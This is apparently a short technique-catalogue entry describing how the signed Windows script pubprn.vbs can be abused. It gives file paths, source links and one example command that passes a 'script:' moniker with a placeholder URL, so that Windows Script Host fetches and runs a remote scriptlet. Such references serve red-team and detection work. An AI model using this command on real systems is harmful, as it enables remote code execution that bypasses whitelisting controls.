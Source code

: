 ## Pubprn.vbs
* Functions: Execute
```

pubprn.vbs 127.0.0.1 script:https://domain.com/folder/file.sct
Set the 2nd variable with a Script COM moniker to perform Windows Script Host (WSH) Injection.
```
   
* Resources:   
  * https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://github.com/enigma0x3/windows-operating-system-archaeology
   
* Full path:   
  * C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs
  * C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs
   
* Notes: Thanks to Matt Nelson - @enigma0x3  
   
